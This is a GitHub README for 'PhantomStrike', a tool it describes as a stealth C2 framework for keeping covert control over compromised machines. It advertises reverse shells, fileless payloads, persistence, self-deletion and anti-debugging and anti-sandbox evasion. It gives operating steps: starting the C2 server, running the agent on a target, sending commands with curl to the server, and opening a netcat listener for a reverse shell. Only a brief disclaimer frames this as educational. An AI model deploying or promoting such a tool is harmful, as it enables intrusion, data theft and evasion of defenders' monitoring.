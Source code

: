 PhantomStrike - Stealth C2 Framework

██████╗ ██╗  ██╗ █████╗ ███╗   ███╗ ████████╗ ███████╗
██╔══██╗██║  ██║██╔══██╗████╗ ████║ ╚══██╔══╝ ██╔════╝
██████╔╝███████║███████║██╔████╔██║    ██║    █████╗
██╔═══╝ ██╔══██║██╔══██║██║╚██╔╝██║    ██║    ██╔══╝
██║     ██║  ██║██║  ██║██║ ╚═╝ ██║    ██║    ███████╗
╚═╝     ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝    ╚═╝    ╚══════╝

PhantomStrike - Stealth C2 Framework 🚀

PhantomStrike is an advanced post-exploitation framework designed to provide stealth, persistence, privilege escalation, and remote control capabilities. It helps to maintain full access to compromised machines and exfiltrate valuable data while evading detection.


---

Features 🔧

AES Encryption: Secure all communications between the agent and the C2 server.

Stealth Mode: Ensures no execution traces are left behind.

Anti-Debugging: Detects debuggers and terminates itself to prevent analysis.

Reverse Shell: Gain full control of the target system remotely.

Fileless Execution: Executes payloads entirely in memory, leaving no traces on the disk.

Self-Delete: The agent deletes itself after execution to prevent detection.

Persistence Mode: Ensures that access is maintained even after system reboots.

Command Execution: Run arbitrary shell commands on the compromised machine.

Reverse Shell Connection: Establish an interactive reverse shell with the target.



---

Installation 📌

1️⃣ Clone the Repository:

git clone https://github.com/Akkaiaj/PhantomStrike.git
cd PhantomStrike

2️⃣ Install Dependencies:

Ensure that you have all required libraries installed:

pip install -r requirements.txt


---

Usage 🚀

1️⃣ Start the C2 Server (Attacker Machine)

Run the following command to start the PhantomStrike C2 server on your machine:

python3 phantom_c2.py

📌 This command will launch the Flask-based C2 server and start listening for incoming agent connections.


---

2️⃣ Deploy the Agent (Target Machine)

To deploy the agent on a compromised system, simply run:

python3 phantom_agent.py

📌 This will:

Connect the agent to the C2 server.

Execute commands sent from the C2 server.

Open a reverse shell for remote control.



---

Command & Control 🛠️

1️⃣ Sending Commands to the Agent

From the C2 server, you can send commands to the connected agent by sending a POST request:

curl -X POST http://your-server-ip:5000/command -H "Content-Type: application/json" -d '{"command": "whoami"}'

📌 The agent will execute the given command and send the results back to the C2 server.


---

2️⃣ Reverse Shell Usage 🔥

Once the agent is connected, establish a reverse shell by running:

nc -lvnp 4444

📌 This will give you full control over the target system.


---

Evasion & Persistence 🕵️‍♂️

Anti-Debugging: PhantomStrike detects when debuggers are present and terminates to avoid analysis.

Self-Delete: The agent cleans up after execution, leaving no traces on the disk.

Persistence Mode: PhantomStrike can be configured to run automatically after system reboots, ensuring continuous access.



---

Defensive Measures 🛡️

AES Encryption: All communication between the agent and C2 server is encrypted to avoid detection.

Evasion: The tool implements polymorphic obfuscation to make the payload harder to detect by sandboxing or monitoring tools.

Anti-Sandbox: PhantomStrike bypasses common sandbox detection mechanisms.



---

Donations 💰

If you find PhantomStrike useful, consider supporting the project to help fund its continuous development:


*buy me a coffe 

BTC: bc1q0ruwrc4gs465xvu6tcn24h62pclt96sh2yv8pq

ETH: 0x69B6F3aA9F470d4cBD93CDC4c0A887C0787CEf9B

SOL: Gk6CmvvS6fi1Nfnu7QEEneshbLkmaE5Ue8sBzxz91D3q


---

License 📜

PhantomStrike is open-source software and licensed under the MIT License. By using this tool, you agree to the terms of this license.


---

⚠️ Disclaimer

This tool is intended for educational purposes and ethical hacking only. Any unauthorized use of this tool against systems without consent is illegal and unethical. Please ensure you have permission to use this tool before deploying it.


---


